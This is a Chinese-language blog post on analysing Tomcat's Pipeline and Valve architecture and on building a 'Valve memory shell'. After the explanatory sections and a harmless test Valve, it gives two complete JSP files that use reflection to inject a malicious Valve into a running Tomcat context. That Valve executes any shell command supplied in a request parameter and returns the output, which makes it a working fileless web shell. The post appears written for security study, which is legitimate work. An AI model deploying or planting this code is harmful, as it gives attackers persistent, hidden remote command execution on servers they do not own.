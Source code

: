 ```yaml
---
layout: post
title: "tomcat-value内存马分析学习"
date:   2025-6-23
comments: true
author: laitya1
---
```

Tomcat的两个核心组件连接器：Connector和Container

```
Tomcat的Container分为四个层级，从上到下依次为：
1.Engine（引擎）：
一个 Tomcat 实例中只能有一个 Engine，负责处理所有进入 Tomcat 的请求。
是 Container 的顶层容器，管理多个 Host 容器。
2.Host（主机）：
代表一个虚拟主机，通常对应一个域名（如 example.com）。
每个 Host 管理多个 Context 容器，负责将请求按域名分发到不同的 Web 应用。
3.Context（上下文）：
代表一个 Web 应用，对应服务器上的一个 Web 应用目录（如 /webapps/myapp）。
管理 Servlet 的注册、初始化及请求的具体处理逻辑。
4.Wrapper（包装器）：
最底层的容器，直接封装一个 Servlet 实例。
负责处理单个 Servlet 的请求，是 Container 架构的最基本单元。
```
![fa565e4f87ffb3ed06cdb2a1be014c56.png](../_resources/fa565e4f87ffb3ed06cdb2a1be014c56.png)
Container处理的第一层就是Engine容器，但是在tomcat中Engine容器不会直接调用Host容器去处理请求，而是调用了自己的pipeline组件去处理，跟pipeline相关的还有个也是容器内部的组件，叫做value组件。

Pipeline的作用就如其中文意思一样——管道，可以把不同容器想象成一个独立的个体，那么pipeline就可以理解为不同容器之间的管道，道路，桥梁。那Valve这个组件是什么东西呢？Valve也可以直接按照字面意思去理解为阀门。我们知道，在生活中可以看到每个管道上面都有阀门，Pipeline和Valve关系也是一样的。Valve代表管道上的阀门，可以控制管道的流向，当然每个管道上可以有多个阀门。如果把Pipeline比作公路的话，那么Valve可以理解为公路上的收费站，车代表Pipeline中的内容，那么每个收费站都会对其中的内容做一些处理（收费，查证件等）。

在catalina中，4种容器都有自己的Pipeline组件，每个Pipeline组件上至少会设定一个Valve，这个Valve我们称之为BaseValve，也就是基础阀。基础阀的作用是连接当前容器的下一个容器（通常是自己的自容器），可以说基础阀是两个容器之间的桥梁。

Pipeline定义对应的接口Pipeline，标准实现了StandardPipeline。Valve定义对应的接口Valve，抽象实现类ValveBase，4个容器对应基础阀门分别是StandardEngineValve，StandardHostValve，StandardContextValve，StandardWrapperValve。

Catalina 是 Apache Tomcat 的核心组件，它是 Servlet 容器 的具体实现，负责处理和管理 Java Web 应用的运行环境

用springboot-web代替tomcat的环境
创建test目录下的两个文件
```
package org.example.valvememoryshelldemo.test;

import java.io.IOException;
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;
import org.apache.catalina.valves.ValveBase;
import org.springframework.stereotype.Component;

@Component
public class TestValve extends ValveBase {
    @Override
    public void invoke(Request request, Response response) throws IOException {
        response.setContentType("text/plain");
        response.setCharacterEncoding("UTF-8");
        response.getWriter().write("Valve 被成功调用");
    }
}
```


```
package org.example.valvememoryshelldemo.test;

import org.apache.catalina.Valve;
import org.springframework.boot.web.embedded.tomcat.TomcatServletWebServerFactory;
import org.springframework.boot.web.server.WebServerFactoryCustomizer;
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;

@Configuration
public class TestConfig {
    @Bean
    public WebServerFactoryCustomizer<TomcatServletWebServerFactory> tomcatCustomizer() {
        return factory -> {
            factory.addContextValves(getTestValve());
        };
    }

    @Bean
    public Valve getTestValve() {
        return new TestValve();
    }
}
```
通常情况下用的ValveBase，点进ValveBase，看到实现了Valve接口：
![9560512a5e7192f9eafbcc1e10f9cc41.png](../_resources/9560512a5e7192f9eafbcc1e10f9cc41.png)
```
public interface Valve {
    Valve getNext();  // 获取下一个阀门

    void setNext(Valve var1); // 设置下一个阀门

    void backgroundProcess(); // 后台执行逻辑，主要在类加载上下文中使用到

	// 执行业务逻辑
    void invoke(Request var1, Response var2) throws IOException, ServletException;

	// 是否异步执行
    boolean isAsyncSupported();
}

```
接下来进行调试，看看之前调用的invoke方法在StandardHostValve.java中，代码为：
```
context.getPipeline().getFirst().invoke(request, response);
```
![9fbfeb49a28acff150f7ad87273c6a9b.png](../_resources/9fbfeb49a28acff150f7ad87273c6a9b.png)
在StandardEngineValve中为
```
host.getPipeline().getFirst().invoke(request, response);
```
![cadf5d90e84b2379faff86a02d5d60ff.png](../_resources/cadf5d90e84b2379faff86a02d5d60ff.png)
后面就不关注了，就关注自己能打进去的value内存马

进去，点击图中的红框箭头
![ff2c6787ad3fbfd175369f3e176fbb2d.png](../_resources/ff2c6787ad3fbfd175369f3e176fbb2d.png)
进去对应的pipeline接口
![86f4166228a5234cd8433fc0869f6c57.png](../_resources/86f4166228a5234cd8433fc0869f6c57.png)
![65503b7b47391086b02eaf5b23be22be.png](../_resources/65503b7b47391086b02eaf5b23be22be.png)
看到addvalue方法
![242b047dbb1263bee541910932ee06a0.png](../_resources/242b047dbb1263bee541910932ee06a0.png)
无法直接获取到这个StandardPipeline，而我们能直接获取到的是StandardContext，那就去看看StandardContext.java中有没有获取StandardPipeline的方法。getPipeline能实现获取
![b2b78a6439d736e1ca9d6a1788769de7.png](../_resources/b2b78a6439d736e1ca9d6a1788769de7.png)
![5ef84f1414bc43b251fc9c0ac82f2ece.png](../_resources/5ef84f1414bc43b251fc9c0ac82f2ece.png)
那这样以来我们的思路就可以补充完整了，先反射获取StandardContext，然后编写一个恶意Valve，最后通过StandardContext.getPipeline().addValve()添加就可以了。当然，我们也可以反射获取StandardPipeline，然后再addValve，这样也是可以的。
```
采用了从StandardContext反射获取StandardPipeline的方式
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.core.*" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    Field requestField = request.getClass().getDeclaredField("request");
    requestField.setAccessible(true);
    final Request req = (Request) requestField.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
    Field pipelineField = ContainerBase.class.getDeclaredField("pipeline");
    pipelineField.setAccessible(true);
    StandardPipeline evilStandardPipeline = (StandardPipeline) pipelineField.get(standardContext);
    ValveBase evilValve = new ValveBase() {
        @Override
        public void invoke(Request request, Response response) throws ServletException,IOException {
            if (request.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.setCharacterEncoding("GBK");
                PrintWriter out = response.getWriter();
                out.println(output);
                out.flush();
                out.close();
                this.getNext().invoke(request, response);
            }
        }
    };
    evilStandardPipeline.addValve(evilValve);
    out.println("inject success");
%>
```



```
调用 standardContext.getPipeline().addValve实现
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.core.*" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
  class testEvilValve extends ValveBase {
    @Override
    public void invoke(Request request, Response response) throws ServletException,IOException {
      if (request.getParameter("command") != null) {
        boolean isLinux = true;
        String osTyp = System.getProperty("os.name");
        if (osTyp != null && osTyp.toLowerCase().contains("win")) {
          isLinux = false;
        }
        String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("command")} : new String[]{"cmd.exe", "/c", request.getParameter("command")};
        InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
        Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
        String output = s.hasNext() ? s.next() : "";
        response.setCharacterEncoding("GBK");
        PrintWriter out = response.getWriter();
        out.println(output);
        out.flush();
        out.close();
        this.getNext().invoke(request, response);
      }
    }
  };
%>

<%
  Field requestField = request.getClass().getDeclaredField("request");
  requestField.setAccessible(true);
  final Request req = (Request) requestField.get(request);
  StandardContext standardContext = (StandardContext) req.getContext();
  standardContext.getPipeline().addValve(new testEvilValve());
  out.println("inject success");
%>
```
![a1d31af337d6a1db4ee29215de5daf99.png](../_resources/a1d31af337d6a1db4ee29215de5daf99.png)
